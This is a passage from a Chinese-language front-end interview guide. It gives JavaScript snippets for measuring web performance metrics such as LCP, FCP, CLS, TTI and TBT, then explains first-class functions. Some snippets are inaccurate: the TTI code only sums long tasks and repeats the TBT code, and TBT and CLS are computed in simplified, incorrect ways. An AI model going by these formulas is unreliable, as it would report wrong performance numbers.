    if (entry.entryType === 'largest-contentful-paint') {
      console.log('LCP:', entry.renderTime || entry.loadTime);
    }
  }
});
observer.observe({
  type: 'largest-contentful-paint',
  buffered: true,
});
```

**2. FCP（First Contentful Paint）：**

- 计算方法：测量页面上第一个内容元素（如文字、图片）呈现的时间。

```js
const observer = new PerformanceObserver((list) => {
  for (const entry of list.getEntries()) {
    if (
      entry.entryType === 'paint' &&
      entry.name === 'first-contentful-paint'
    ) {
      console.log('FCP:', entry.startTime);
    }
  }
});
observer.observe({
  type: 'paint',
  buffered: true,
});
```

**3. FID（First Input Delay）：**

- 计算方法：
  - 测量用户首次与页面交互（点击链接、按钮等）到浏览器实际响应该交互的时间。
  - 计算两个时间点之间的差值，即为 `FID`。

```js
document.addEventListener('DOMContentLoaded', () => {
  const observer = new PerformanceObserver((list) => {
    for (const entry of list.getEntries()) {
      if (entry.entryType === 'first-input' && entry.startTime < 5000) {
        console.log('FID:', entry.processingStart - entry.startTime);
      }
    }
  });
  observer.observe({
    type: 'first-input',
    buffered: true,
  });
});
```

**4. CLS（Cumulative Layout Shift）：**

- 计算方法：监测到页面上元素布局发生变化时，记录布局变化的量。将所有布局变化的量累积起来，即为
  CLS。

```js
const observer = new PerformanceObserver((list) => {
  for (const entry of list.getEntries()) {
    if (entry.entryType === 'layout-shift') {
      console.log('CLS:', entry.value);
    }
  }
});
observer.observe({
  type: 'layout-shift',
  buffered: true,
});
```

**5. TTFB（Time To First Byte）：**

- 计算方法：
  - 记录发起请求的时间点。
  - 监测到接收到第一个字节的时间点。
  - 计算两个时间点之间的差值，即为 TTFB。

```js
const startTime = performance.now();
fetch('https://example.com').then((response) => {
  const endTime = performance.now();
  const duration = endTime - startTime;
  console.log('TTFB:', duration);
  return response;
});
```

**6. TTI（Time To Interactive）：**

- 计算方法：测量页面变得可交互的时间，即用户可以进行操作和与页面进行交互的时间点。
  - 监测到页面上的关键元素加载完成的时间点。
  - 监测到所有关键脚本的执行完成的时间点。
  - 监测到用户首次与页面交互的时间点。
  - 计算这些时间点之间的最大值，即为 TTI。

```js
function calculateTTI() {
  const longTasks = performance.getEntriesByType('longtask');
  const blockingTime = longTasks.reduce(
    (total, task) => total + task.duration,
    0
  );
  console.log('TTI:', blockingTime);
}

window.addEventListener('load', () => {
  setTimeout(calculateTTI, 5000);
});
```

**7. TBT（Total Blocking Time）：**

- 计算方法：衡量页面在加载过程中存在的阻塞时间总和，即浏览器忙于处理
  JavaScript 执行而导致无法响应用户输入的时间。

  - 监测到页面加载过程中 JavaScript 阻塞用户输入的时间段。
  - 将所有阻塞时间段的持续时间累积起来，即为 TBT。

```js
function calculateTBT() {
  const longTasks = performance.getEntriesByType('longtask');
  const blockingTime = longTasks.reduce(
    (total, task) => total + task.duration,
    0
  );
  console.log('TBT:', blockingTime);
}

window.addEventListener('load', () => {
  setTimeout(calculateTBT, 5000);
});
```

上述示例代码可以在页面中嵌入并运行，通过浏览器的开发者工具或控制台查看相应的性能指标输出。注意，这些示例代码只是基本的计算方法，实际使用时可能需要根据具体的情况进行调整和扩展。此外，为了准确测量性能指标，建议在真实用户环境中进行测试和监测。

**使用 `web-vitals` 库可以更方便地获取和处理性能指标。下面是使用
`web-vitals` 库的示例代码：**

```js
import { getCLS, getFID, getLCP, getFCP, getTTFB } from 'web-vitals';

// CLS (Cumulative Layout Shift)
getCLS(console.log);

// FID (First Input Delay)
getFID(console.log);

// LCP (Largest Contentful Paint)
getLCP(console.log);

// FCP (First Contentful Paint)
getFCP(console.log);

// TTFB (Time To First Byte)
getTTFB(console.log);
```

上述代码使用了 `getCLS` 、 `getFID` 、 `getLCP` 、 `getFCP` 和 `getTTFB`

函数来获取对应的性能指标，并将结果通过回调函数打印到控制台。

要使用 `web-vitals` 库，需要先安装该库并在项目中引入。可以使用 npm 或
yarn 进行安装：

```bash
npm install web-vitals

```

然后，在项目中引入 `web-vitals`：

```js
import { getCLS, getFID, getLCP, getFCP, getTTFB } from 'web-vitals';
```

接下来，可以通过调用相应的函数来获取性能指标，并在回调函数中处理指标的结果。示例中使用
`console.log` 打印结果，但你可以根据需要进行其他的处理操作。

请注意，以上示例代码仅展示了如何使用 `web-vitals`

来获取指标，实际应用中可能需要根据具体情况进行处理和使用其他工具或方法来进行更全面的性能分析和优化。

### 126 谈谈你对函数是一等公民的理解

JavaScript 中的函数被称为一等公民（First-class
Citizens），这意味着函数在语言中被视为普通的值，可以像其他数据类型（例如数字、字符串、对象）一样被传递、赋值、存储和返回。

**以下是对 JavaScript 函数作为一等公民的几个重要特性和理解：**

1.  可以赋值给变量：函数可以像其他数据类型一样赋值给变量。你可以将函数定义存储在变量中，并在需要时将其作为值传递给其他函数或存储在数据结构中。
2.  可以作为参数传递：函数可以作为参数传递给其他函数。这使得函数能够接受其他函数作为输入，并根据需要执行或处理。
3.  可以作为返回值：函数可以作为另一个函数的返回值。你可以在一个函数内部定义并返回另一个函数，这使得函数能够灵活地生成和返回其他函数。
4.  可以存储在数据结构中：函数可以存储在数组、对象或其他数据结构中。这使得你可以在需要时使用函数，并根据需求对其进行组合、迭代或操作。
5.  可以通过字面量或表达式定义：函数可以通过函数字面量（函数表达式）或函数声明来定义。这为我们提供了灵活性，可以根据需要选择不同的方式来定义函数。
6.  可以通过闭包捕获状态：由于 JavaScript
    中的函数形成了闭包，函数可以访问其所在作用域中的变量。这意味着函数可以捕获并保持对外部变量的引用，即使在函数外部不可访问的情况下也可以使用。

> 这些特性使得 JavaScript
> 中的函数非常强大和灵活。函数作为一等公民使得我们可以使用函数式编程的思想和技术，如高阶函数、函数组合、柯里化等，以更加优雅和灵活地编写代码。
